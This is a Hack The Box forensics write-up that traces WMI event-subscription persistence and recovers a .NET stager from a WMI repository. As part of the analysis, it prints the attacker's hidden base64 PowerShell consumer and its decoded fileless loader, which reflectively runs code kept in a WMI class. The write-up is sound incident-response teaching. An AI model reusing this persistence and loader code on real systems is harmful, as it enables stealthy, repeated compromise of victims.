






# HTB - Perseverance
> [Hackthebox](https://app.hackthebox.com) > Labs > [Challenges](https://app.hackthebox.com/challenges) > Forensics

## Challenge Description
During a recent security assessment of a well-known consulting company, the competent team found some employees' credentials in publicly available breach databases. Thus, they called us to trace down the actions performed by these users. During the investigation, it turned out that one of them had been compromised. Although their security engineers took the necessary steps to remediate and secure the user and the internal infrastructure, the user was getting compromised repeatedly. Narrowing down our investigation to find possible persistence mechanisms, we are confident that the malicious actors use WMI to establish persistence. You are given the WMI repository of the user's workstation. Can you analyze and expose their technique?

# ATT&CK Techniques discovered
* [Mitre T1546.003 - Event Triggered Execution: Windows Management Instrumentation Event Subscription](https://attack.mitre.org/techniques/T1546/003/)
* [Mitre T1059.001 - Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
* [Mitre T1620 - Reflective Code Loading](https://attack.mitre.org/techniques/T1620/)
* [Mitre T1567 - Exfiltration Over Web Service](https://attack.mitre.org/techniques/T1567/)
## Files
* Perseverance.zip (**pwd:** hackthebox)

## Step by Step

### 1.- Understand the problem
On the description of this challenge, they are giving us two crucial pieces of information. It is a WMI Attack and it's using persistence. When I read this, it immediately reminded me about an Incident Response that I had to attend years ago about a Fileless malware attack. I even did a talk about it at BSides2018 ([check slides here](https://github.com/mdiazcl/talks/tree/master/2018.bsides_powerless)).

The response teams from this challenge managed to collect the WMI Database Artifacts. There is an awesome [FireEye documentation](https://www.mandiant.com/sites/default/files/2021-09/wp-windows-management-instrumentation.pdf) about this kind of attacks.

### 2.- What is WMI and CIM
Windows Management Instrumentation or WMI is used by Windows and System Administrators to manage data within the device independent of its origin. It comes preinstalled with all Windows since 2000. On the other hand, Common Infromation Model (CIM) is a vendor-neutral standard for representing management information on various devices. System administrators uses this to manage and get information about the status of local or remote computer systems.

Although  it is a great management tool and really useful to get and store information within a device, it is also highly used by Cybercriminals to get system information about their victims (check [Win32 Classes](https://docs.microsoft.com/en-us/previous-versions//aa394084(v=vs.85)?redirectedfrom=MSDN)) and to execute Fileless malware attacks and develop persistance mechanisms. This is a **large topic**, something all Incident Response should at least have some notion, but I wont deep dive into it since it is the write-up of this challenge, but you definitely should! Let us go back to why we are here.

### 3.- Analyzing the artifacts
WMI/CIM Databases are based on several files, these are `OBJECTS.DATA` that contains CIM entities in binary format, `INDEX.BTR` that contains a binary tree index for data lookups over `OBJECTS.DATA` and finally the mapping files (`MAPPING{1,2,3}.MAP`) to map the logical data page number to the physical data on the `OBJECTS.DATA`. Thanks to the response team, we have all these files to do our forensics.

Command | result
--- | ---
name | INDEX.BTR
file | INDEX.BTR: data
sha256sum | 90ff94e2974bffc4d4c2cbde3183e6900f4510cb4f17b1fe1c4e7b2dd194698e INDEX.BTR
VirusTotal Search | https://www.virustotal.com/gui/file/90ff94e2974bffc4d4c2cbde3183e6900f4510cb4f17b1fe1c4e7b2dd194698e INDEX.BTR (found)
name | MAPPING1.MAP
file | MAPPING1.MAP: data
sha256sum | fdb17b3638677b64f313bfc8024c6e0a7f533717b554386a227f10b66a765a42 MAPPING1.MAP
VirusTotal Search | Not found
name | MAPPING2.MAP
file | MAPPING2.MAP: data
sha256sum | 1e123c39fb50d59f16cf163d3b9d0172ab5503a1c18dbaa1d9ffe44a591c2a09 MAPPING2.MAP
VirusTotal Search | Not found
name | MAPPING3.MAP
file | MAPPING3.MAP: data
sha256sum | 8aa7f6795d90767b2e7fbbe8a03e119d555869867c1035f6ad6c74ff2f0c2399 MAPPING3.MAP
VirusTotal Search | https://www.virustotal.com/gui/file/8aa7f6795d90767b2e7fbbe8a03e119d555869867c1035f6ad6c74ff2f0c2399 MAPPING3.MAP (found)
name | OBJECTS.DATA
file | OBJECTS.DATA: data
sha256sum | 6fe0b99195923d89c70935dcee5c507c8317fc4fc211b58d13e68adc54a48043 OBJECTS.DATA
VirusTotal Search | https://www.virustotal.com/gui/file/6fe0b99195923d89c70935dcee5c507c8317fc4fc211b58d13e68adc54a48043 OBJECTS.DATA (found)

To explore this we are going to use a WMI-Forensics toolkit from Mandiant called [Flare-WMI](https://github.com/mandiant/flare-wmi). It comes with several [python samples](https://github.com/mandiant/flare-wmi/tree/master/python-cim/samples) of how to use the `python-cim` library. They will help us to analyze this WMI attack.

### 4.- What we are looking for?
While doing incident response it is really easy to find artifacts that contains tons of data, and it's easier to get lost within this data if you don't know what you are looking for. If you checked the samples from `flare-wmi` there are a lot of tools that you can use, but which one will get us closer to our goal? First, we need to know what we are looking for.

The challenge description told us that there is persistence within this computer using WMI. One well used method of persistence with this is using the [Windows Management Instrumentation Event Subscription - (Mitre T1546)](https://attack.mitre.org/techniques/T1546/003/) technique. This technique (in short) defines a `Filter`, a `Consumer` and a `Binding`. The filter works as sort of a "trigger", the consumer is the action that will happen when the filter triggers and finally the binding it is what ... well, binds them together.

### 5.- Finding the persistence
Let us start with the hypothesis that the attacker used this **Event Subscription attack** to develop its persistence. We should look for Filter that are bind to Consumers, thanks to Flare-WMI we have the right tool for that.

```bash
python3 show_filtertoconsumerbindings.py win7 /wmi-database-files/
```



That base64 encoded powershell is a great flag that we are in the right direction! Thanks to that tool we quickly check that there are two Event Subscription. We are going to focus on the second one.

We check that the filter is based on the following query.
```sql
SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 120 AND TargetInstance.SystemUpTime < 325
```

With some SQL/WMI Query knowledge we confirm that this is executed every 60 seconds, checking if the SystemUptime is between 120 and 325 seconds. That is the execution window, I can assume that this is also Sandbox evasion technique, since *default sandboxes* only run for a brief period of time. When this query is True, it executes the Consumer.

This is the consumer:
```powershell
cmd /C powershell.exe -Sta -Nop -Window Hidden -enc JABmAGkAbABlACAAPQAgACgAWwBXAG0AaQBDAGwAYQBzAHMAXQAnAFIATwBPAFQAXABjAGkAbQB2ADIAOgBXAGkAbgAzADIAXwBNAGUAbQBvAHIAeQBBAHIAcgBhAHkARABlAHYAaQBjAGUAJwApAC4AUAByAG8AcABlAHIAdABpAGUAcwBbACcAUAByAG8AcABlAHIAdAB5ACcAXQAuAFYAYQBsAHUAZQA7AHMAdgAgAG8AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABJAE8ALgBNAGUAbQBvAHIAeQBTAHQAcgBlAGEAbQApADsAcwB2ACAAZAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEQAZQBmAGwAYQB0AGUAUwB0AHIAZQBhAG0AKABbAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtAF0AWwBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGYAaQBsAGUAKQAsAFsASQBPAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAC4AQwBvAG0AcAByAGUAcwBzAGkAbwBuAE0AbwBkAGUAXQA6ADoARABlAGMAbwBtAHAAcgBlAHMAcwApACkAOwBzAHYAIABiACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAQgB5AHQAZQBbAF0AKAAxADAAMgA0ACkAKQA7AHMAdgAgAHIAIAAoAGcAdgAgAGQAKQAuAFYAYQBsAHUAZQAuAFIAZQBhAGQAKAAoAGcAdgAgAGIAKQAuAFYAYQBsAHUAZQAsADAALAAxADAAMgA0ACkAOwB3AGgAaQBsAGUAKAAoAGcAdgAgAHIAKQAuAFYAYQBsAHUAZQAgAC0AZwB0ACAAMAApAHsAKABnAHYAIABvACkALgBWAGEAbAB1AGUALgBXAHIAaQB0AGUAKAAoAGcAdgAgAGIAKQAuAFYAYQBsAHUAZQAsADAALAAoAGcAdgAgAHIAKQAuAFYAYQBsAHUAZQApADsAcwB2ACAAcgAgACgAZwB2ACAAZAApAC4AVgBhAGwAdQBlAC4AUgBlAGEAZAAoACgAZwB2ACAAYgApAC4AVgBhAGwAdQBlACwAMAAsADEAMAAyADQAKQA7AH0AWwBSAGUAZgBsAGUAYwB0AGkAbwBuAC4AQQBzAHMAZQBtAGIAbAB5AF0AOgA6AEwAbwBhAGQAKAAoAGcAdgAgAG8AKQAuAFYAYQBsAHUAZQAuAFQAbwBBAHIAcgBhAHkAKAApACkALgBFAG4AdAByAHkAUABvAGkAbgB0AC4ASQBuAHYAbwBrAGUAKAAwACwAQAAoACwAWwBzAHQAcgBpAG4AZwBbAF0AXQBAACgAKQApACkAfABPAHUAdAAtAE4AdQBsAGwA
```

So, it executes a Powershell encoded Base64 script. I already decoded it and prettyfied it for you.
```powershell
$file = ([WmiClass]'ROOT\cimv2:Win32_MemoryArrayDevice').Properties['Property'].Value;
sv o (New-Object IO.MemoryStream);
sv d (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($file), [IO.Compression.CompressionMode]::Decompress));
sv b (New-Object Byte[](1024));
sv r (gv d).Value.Read((gv b).Value, 0, 1024);

while ((gv r).Value -gt 0) {
    (gv o).Value.Write((gv b).Value, 0, (gv r).Value);
    sv r (gv d).Value.Read((gv b).Value, 0, 1024);
    echo (gv r).Value;
}

[Reflection.Assembly]::Load((gv o).Value.ToArray()).EntryPoint.Invoke(0, @(, [string[]]@())) | Out-Null
```

What this scripts does is that reads a WMIClass located at `ROOT\cimv2:Win32_MemoryArrayDevice` and get its Property contents. We check that in line 3 does a base64 decoding and inflation/decompression. After that it executes as an Assembly in memory in the last line. Our next move will be to understand what is stored within that `Win32_MemoryArrayDevice` class property.

### 6.- Understanding the malware
We got the persistence part covered, now we need to understand the malware that was being loaded on that powershell. The malware is stored within the `Win32_MemoryArrayDevice` class property. Flare-WMI contains another great tool for this.

```bash
python3 auto_carve_class_definitions.py /wmi-database-files/ > class_def.txt
```

If we take a look at the `class_def.txt` and we search our class, we quickly find that the property called Property value contains another base64 encoded data.



Let us use Cyberchef to understand that Base64, it's important to remember that in line 3 of the Consumer powershell it does a Base64 decoding and then an Inflate process.



It is a Portable Executable! We are going to save it as malware.exe in our sandbox (Don't use your computer).

This is the filetype table of this malware.

command | result
--- | ---
name | malware.exe
file | Windows Portable Executable
sha256sum | 2E797717D21635A162653DBD6CABFCF52BD771C9FA14F93B38D088BC82DF83EC malware.exe
VirusTotal Search | https://www.virustotal.com/gui/file/2E797717D21635A162653DBD6CABFCF52BD771C9FA14F93B38D088BC82DF83EC OBJECTS.DATA (found)

It was uploaded 7 days ago (remember not to do that while an incident response!).



### 7.- Decompiling the malware
If you run `strings` on our malware you can quickly realize that is a C#.NET assembly. So, let's decompile it.

We are going to use [.NET Reflector](https://www.red-gate.com/products/dotnet-development/reflector/) from RedGate using the free trail (not sponsored). Loading the file on Reflector you can check that there is Namespace called `5mqms3q1.zci, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null`. Inside this namespace there are several methods, but the one that executes the malware part is called `ExecuteStager() : Void`.



I'm going to skip the part where we understand the whole code! I will leave that to the reader. What you need to get from this is that in line
|
```csharp
byte[] key = Convert.FromBase64String(builder.ToString());
```

Is building a Key for AES Encryption, that key is being built from the base64 decode value from `builder` variable. We see that key at the first part of the code.

```csharp
StringBuilder builder = new StringBuilder().Append("SFRCezFfd");
builder.Append("GgwdWdodF9XTTFfdzRzX2p1c");
builder.Append("3RfNF9NNE40ZzNtM2");
builder.Append("50X1QwMGx9");
```

If we decode that base64...

```bash
echo "SFRCezFfdGgwdWdodF9XTTFfdzRzX2p1c3RfNF9NNE40ZzNtM250X1QwMGx9" | base64 --decode
> HTB{REDACTED}
```

w00t! we got the flag! `HTB{REDACTED}`.

# Wrapping up & Comments
I really like this challenge! As I said at the start of this Write-Up when I read the challenge description it quickly got into my mind the Fileless malware attack that I had to deal with few years ago. This kind of attacks are pretty common since they can evade some Sandboxes looking for filenames IoC. Also, it helps to understand that there are several ways that cybercriminals generate persistence.

During this challenge we can see several Mitre techniques, first of them is the persistence through Windows Management Instrumentation Event Subscription ([Mitre T1546.003](https://attack.mitre.org/techniques/T1546/003/)), executing malware using Powershell ([Mitre T1059.001](https://attack.mitre.org/techniques/T1059/001/)). Also it uses Reflective Code Loading to run the malware directly into memory ([Mitre T1620](https://attack.mitre.org/techniques/T1620/)). Finally, to communicate with the attacker server uses Exfiltration Over Web Service ([Mitre T1567](https://attack.mitre.org/techniques/T1567/)).



Happy hunting!

**Takeaways**
* Always record everything you see
* Never upload files to public antivirus webs or sandboxes
* Persistence can be in fileless places
* C# and Powershell Coding is important!
* Have fun! Enjoy hunting.